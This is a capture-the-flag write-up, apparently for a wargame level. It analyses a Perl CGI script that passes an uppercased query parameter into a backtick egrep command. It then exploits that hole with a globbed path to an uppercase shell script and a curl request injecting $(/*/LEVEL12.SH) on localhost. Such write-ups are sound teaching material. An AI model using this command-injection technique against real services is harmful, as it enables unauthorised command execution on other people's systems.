 # Level 12

## Initial Context

- A single file: `level12.lua`

## Solving the Challenge

### Analyzing

There is only a CGI perl script:

```perl
$ cat level12.pl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```

We can see it takes two parameters to call the method `t`:
- `?y` stored in `$nn` but never used.
- `?x` stored in `$xx`:
  - using a regex, all characters are replaced as their uppercase version:
    ```
    .----------- translate (a.k.a replace)
    |   .------- all characters from 'a' to 'z'
    |   |   .--- to all characters from 'A' to 'Z'
    |   |   |
    tr/a-z/A-Z/
    ```
  - using a regex, if content start with a space, all content is replaced with nothing:
    ```
    .---------- search
    | .-------- 1 any space characters (equivalent to [\r\n\t\f\v ])
    | | .------ any any characters
    | | |.----- between zero and unlimited times
    | | || .--- replace it with nothing
    | | || |
    s/\s.*//
    ```
  - then it is used for a command:
    ```
    @output = `egrep "^$xx" /tmp/xd 2>&1`;
    ```

So using a subshell, we should be able to execute custom commands.

But since every character are in uppercase, commands will break. Executing a script can overcome this problem.

### Exploiting

The script name must be in uppercase.

```bash
$ echo 'getflag > /tmp/level12' > /tmp/LEVEL12.SH
$ chmod a+rx /tmp/LEVEL12.SH
```

But since we cannot uppercase `/tmp/` we will have to use bash's expender `*`. That means that `/*/LEVEL12.SH` will resolve to `/tmp/LEVEL12.SH` since no other directory in `/` have a file named `LEVEL12.SH`.

```bash
$ ls /tmp/LEVEL12.SH
/tmp/LEVEL12.SH
```

Now we can exploit the script by doing an HTTP request to `localhost:4646` (mentioned at the top of the script).

```bash
$ curl http://localhost:4646?x='$(/*/LEVEL12.SH)'
..
```

And we can see our flag with:

```bash
$ cat /tmp/level12
Check flag.Here is your token : ....
```